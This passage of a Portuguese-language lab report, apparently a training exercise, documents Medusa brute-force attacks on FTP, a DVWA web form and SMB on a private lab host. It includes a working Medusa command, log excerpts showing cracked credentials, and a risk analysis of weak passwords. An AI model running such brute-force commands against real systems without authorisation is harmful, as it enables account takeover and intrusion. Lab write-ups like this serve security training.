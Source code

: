 **Trecho do relatório:**

```
[-] 172.23.3.201:80 HTTP_FORM: admin:admin123 - Login failed
[+] 172.23.3.201:80 HTTP_FORM: admin:password - Login successful
```

> Resultado: **senha encontrada** para `admin` — `password` (salvo em `reports/medusa-web-172.23.3.201.txt`).

### 4.3 Ataque SMB (445/139) — Samba

Comando usado (módulo `smbnt`):

```bash
medusa -h 172.23.3.201 -u administrator -P ~/project-bruteforce/wordlists/small-words.txt -M smbnt -t 6 | tee ~/project-bruteforce/reports/medusa-smb-172.23.3.201.txt
```

**Trecho do relatório:**

```
[!] 172.23.3.201:445 SMBNT: administrator:123456 - Login failed
[+] 172.23.3.201:445 SMBNT: administrator:admin123 - Login successful
```

> Resultado: **senha encontrada** para `administrator` — `admin123` (salvo em `reports/medusa-smb-172.23.3.201.txt`).

---

## 5. Evidências e logs

Arquivos salvos no repositório:

* `reports/nmap-full-172.23.3.201.txt` — saída Nmap completa.
* `reports/medusa-ftp-172.23.3.201.txt` — resultado do ataque FTP.
* `reports/ftp-session-172.23.3.201.pcap` — captura pcap do tráfego FTP.
* `reports/medusa-web-172.23.3.201.txt` — resultado do ataque web.
* `reports/medusa-smb-172.23.3.201.txt` — resultado do ataque SMB.

Todas as evidências possuem timestamp no filename quando geradas na sessão real.

---

## 6. Análise de resultados

Resumo dos achados:

* **FTP (21):** conta `testuser` com senha fraca `welcome`. Risco: **alto** se FTP estiver exposto.
* **Web (80):** formulário DVWA com credenciais `admin:password`. Risco: **alto** — credenciais fracas e ausência de proteção contra brute force.
* **SMB (445):** conta `administrator` com senha `admin123`. Risco: **muito alto** por conta de permissões administrativas disponíveis via SMB.

Implicações:

* Contas com senhas fracas facilitam movimento lateral e escalonamento de privilégios.
* Serviços sem proteção de taxa (rate limiting) permitem ataques automatizados com facilidade.

---
